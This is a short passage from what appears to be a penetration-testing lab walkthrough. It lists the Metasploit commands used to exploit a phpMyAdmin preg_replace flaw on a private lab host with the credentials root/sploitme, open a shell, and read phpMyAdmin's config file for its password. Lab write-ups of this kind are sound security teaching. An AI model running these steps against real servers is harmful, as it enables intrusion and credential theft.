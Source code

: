 That is, `use` the command in the `shell` to get the password to phpmyadmin:

`cat` /var/www/html/phpmyadmin/config.inc.php

**Commands Used:**

`search` phpmyadmin

`use` `exploit`/multi/http/phpMyAdmin_preg_replace

`show` options

`set` `RHOSTS` 192.168.0.102

`set` `RPORT` 80

`set` PATH /phpmyadmin

`set` USERNAME root

`set` PASSWORD sploitme

`exploit`

`ls`

`shell`

`whoami`

`exit`

Screenshot of the results:

![Screenshot 14](images/im14.png)
> Figure 2.8

